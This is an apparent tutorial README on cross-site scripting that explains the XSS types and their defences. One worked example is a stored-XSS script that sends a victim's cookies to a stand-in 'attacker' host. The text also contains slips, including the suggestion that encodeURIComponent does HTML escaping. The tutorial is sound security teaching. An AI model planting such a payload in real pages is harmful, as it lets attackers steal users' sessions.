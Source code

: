 # HTML Injections

##What are HTML script injections?

HTML injections are more commonly known as **Cross-site Scripting** – aka **XSS** (not CSS, to avoid confusion with stylesheets!). XSS refers to a **code-injection attack**, in which an attacker executes malicious scripts in a legitimate website by injecting code into a HTML element, most usually a user input form. If the website directly includes user input in its pages, the attacker can input a string that will be treated as code by the victim's browser and executed.

The two most common types of XSS are **Non-Persistent XSS** and **Persistent XSS**:

####Non-Persistent XSS

* The most regularly seen cross-site vulnerability
* Also known as **Reflected XSS**.
* The attack is carried out through a single request/response cycle: the payload is not stored anywhere, but returned as part of the response HTML that the server sends.

####Persistent XSS

* Occurs when XSS vectors are stored in the compromised website's database and executed when a certain page is opened by the user.
* More harmful than non-persistent XSS, as the script will quietly automatically execute whenever a user opens the infected page.

A third category exists - **DOM-based XSS**. This occurs when the XSS vector executes as a result of DOM modification on a website in a user's browser. DOM-based XSS is the most advanced and least common type of XSS.

All three forms of XSS attack have a similar process:

![Diagram demonstrating the process of an XSS attack](diagram.png)

An attacker generally has one of four aims when executing an XSS attack:

* Session hijacking: Stealing the cookie(s) of a victim in order to impersonate them
* Browser hijacking: Redirecting a victim's browser to a web page specified by the attacker, or having the browser perform certain actions in a web app
* Redirecting form actions: Compromising a form to have user information sent to their computer alongside the intended destination
* Changing the appearance of a web page: Modifying a web page to lure a victim into giving up information


##What are some examples?

##Video example

For a video example that demonstrates an XSS attack and basic server validation please see our [video tutorial](https://www.youtube.com/watch?v=Ln-d1T4HUh4&feature=youtu.be).

##Readme example

Let's say an attacker wants to steal a victim's cookies. This can be done through a persistent XSS attack. The attacker's goal is to have the victim's browser parse this **malicious script**:

``<script>
window.location='http://attacker/?cookie='+document.cookie
</script>``

The script triggers an HTTP request to the attacker's server. The URL includes the victim's cookies as a query paramater, which the attacker can then extract from the request when it arrives at their server and use to impersonate the victim.

The attacker submits the malicious script as a user input to one of the website's forms, thus inserting the script into the website's database through a `POST` request. For instance, the script could be posted as a comment on an unsecure blog.

When the victim visits the compromised blog, their browser makes a `GET` request in order to access the comments. The blog's HTTP response includes the malicious script, which executes and triggers a HTTP request to the attacker's server.


##How can you protect against them in your apps?

XSS attacks can be prevented through **secure input handling**. This can be performed in two ways:

####Encoding
Encoding user input ensures that the browser interprets it only as data, not as code. This is most commonly done through **HTML escaping**, in which special characters are escaped: ``&`` becomes ``&amp;``, ``<`` becomes ``&lt;``, and ``>`` becomes ``&gt;`` for instance.

If our attacker's malicious script was encoded, the browser would read it as:

``&lt;script&gt;
window.location='http://attacker/?cookie='+document.cookie
&lt;/script&gt;``

And it wouldn't run.

JavaScript has built in functions to encode and decode special characters in a string: ``encodeURIComponent()`` and ``decodeURIComponent()``.

####Validation

Encoding should be your first line of defence against XCC attacks, but it has some limitations. For instance, if user input is used to provide URLs, an attacker could still insert a URL beginning with ``javascript:``, which would execute code embedded in the address. In this case, you would want to bolster your defence with validation.

Validation is the act of filtering user input to ensure any malicious elements are removed. The easiest way to do this is through **whitelisting** - defining an allowed pattern and marking any input that doesn't match it as invalid. For instance, a form to accept a user's phone number could mark any input that contained something other than a number as invalid. In the case above, a URL would be marked as invalid if it contained a protocol other than ``HTTP:`` or ``HTTPS:``

There are two approaches you can take to invalid inputs – rejection and sanitation:

* Rejection will, as the name suggests, simply reject the input, preventing it from being used elsewhere in the website
* Sanitation will remove all invalid parts of the input, with the remaining input being free to be used normally by the website

While rejection is simplest to implement, sanitation often provides the best user experience – if a user includes hyphens while submitting their credit card number, for example, a sanitation routine that removes all non-digit characters will prevent an XSS attack without forcing the user to resubmit.
